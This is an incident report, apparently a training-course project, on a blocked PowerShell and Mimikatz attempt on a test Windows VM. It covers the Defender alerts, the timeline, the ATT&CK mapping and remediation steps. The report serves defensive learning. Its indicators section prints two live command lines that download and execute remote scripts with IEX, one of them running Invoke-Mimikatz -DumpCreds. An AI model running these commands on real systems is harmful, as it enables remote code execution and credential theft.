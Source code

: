 # Investigation report — Suspicious PowerShell / Mimikatz on Jenny

**Analyst:** Sceptre  
**Date:** 27 October 2025  
**Time zone:** London GMT 

## Investigation Summary — What happened?

Defender for Endpoint detected and blocked suspicious PowerShell activity.  
It was an RDP session for AzureAD\JennySmith, which spawned cmd.exe that launched powershell.exe to download and execute remote scripts `IEX` + `DownloadString`.  
Defender prevented payloads including an attempted Mimikatz execution, so no credential dumping was completed.


## Stakeholder Impact — Who was involved?

- **User:** AzureAD\JennySmith  
- **Device:** Windows 11 VM “Jenny”  
- **Business impact:** None — activity blocked successfully and contained within the test environment.


## Findings — What did I find?

- 3 Defender Alerts:
  - Suspicious PowerShell command line with IEX and DownloadString  
  - Suspicious process executed PowerShell command (cmd.exe → powershell.exe)  
  - Blocked Mimikatz attempt labelled Trojan:PowerShell/Mimikatz.A 


## Immediate Actions — When did this occur and is it still happening?

- **Initial detection:** 27 Oct 2025 16:05 GMT    
- **Status:** No ongoing execution or related activity observed.


## Affected systems and data — Where in the environment did this happen?

- **Host:** Jenny (Windows 11 VM)  
- **Session:** AzureAD\JennySmith via RDP from `192.168.1.72`


## Indicators of Compromise (IoCs)

```powershell
powershell.exe -exec bypass -noprofile "$comMsXml=New-Object -ComObject MsXml2.ServerXmlHttp;$comMsXml.Open('GET','https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.001/src/test.ps1',$False);$comMsXml.Send();IEX $comMsXml.ResponseText"
```

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/.../Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```


## Root Cause — Why did this happen?

The root cause was the execution of a PowerShell command in an RDP session.  
PowerShell with `IEX` and `DownloadString` is used to run code.  



## Nature of the Attack — How did this happen?

This is MITRE ATT&CK technique T1059.001 (Command and Scripting Interpreter — PowerShell).  
The attacker used cmd.exe to call PowerShell, which fetched remote scripts.
The next stage attempted credential theft using Mimikatz but Defender detected the behaviour and blocked it before it ran.


## Remediation

1. Isolate the host from the network.  
2. Hunt for IEX and DownloadString patterns.  

## Conclusion
  
Defender did its job and blocked what would have been a credential theft. 
The key takeaway is to look out for PowerShell being used by non-IT users. 


*Report by Sceptre — MyDFIR Microsoft 30 Days Challenge Project 3*
